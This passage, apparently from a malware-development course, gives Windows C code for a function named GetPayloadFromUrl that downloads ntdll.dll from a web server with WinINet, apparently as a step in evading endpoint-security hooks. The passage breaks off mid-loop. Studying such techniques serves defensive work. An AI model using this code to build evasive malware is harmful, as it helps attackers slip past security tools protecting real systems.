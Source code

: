 ```

	// 'GetPayloadFromUrl' is used to download a file from a webserver
	if (!GetPayloadFromUrl(szFullUrl, &pNtdllBuffer, &sNtdllSize))
		return FALSE;

	// 'sNtdllSize' will now contain the size of the downloaded ntdll.dll file
	// 'pNtdllBuffer' will now contain the base address of the downloaded ntdll.dll file

	*ppNtdllBuf = pNtdllBuffer;

	return TRUE;
}

```
Recall that `GetPayloadFromUrl` has three parameters, the download URL, and two output parameters that represent the base address and size of the downloaded file, respectively.


```
BOOL GetPayloadFromUrl(IN LPCWSTR szUrl, OUT PVOID* pNtdllBuffer, OUT PSIZE_T sNtdllSize) {

	BOOL		bSTATE			= TRUE;

	HINTERNET	hInternet		= NULL,
			    hInternetFile	= NULL;

	DWORD		dwBytesRead		= NULL;

	SIZE_T		sSize			= NULL; 	 			// Used as the total size counter

	PBYTE		pBytes			= NULL,					// Used as the total heap buffer counter
			    pTmpBytes		= NULL;					// Used as the tmp buffer (of size 1024)

	// Opening the internet session handle, all arguments are NULL here since no proxy options are required
	hInternet = InternetOpenW(L"MalDevAcademy", NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Opening the handle to the ntdll file using theURL
	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Allocating 1024 bytes to the temp buffer
	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL) {
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE) {

		// Reading 1024 bytes to the tmp buffer. The function will read less bytes in case the file is less than 1024 bytes.
		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}

```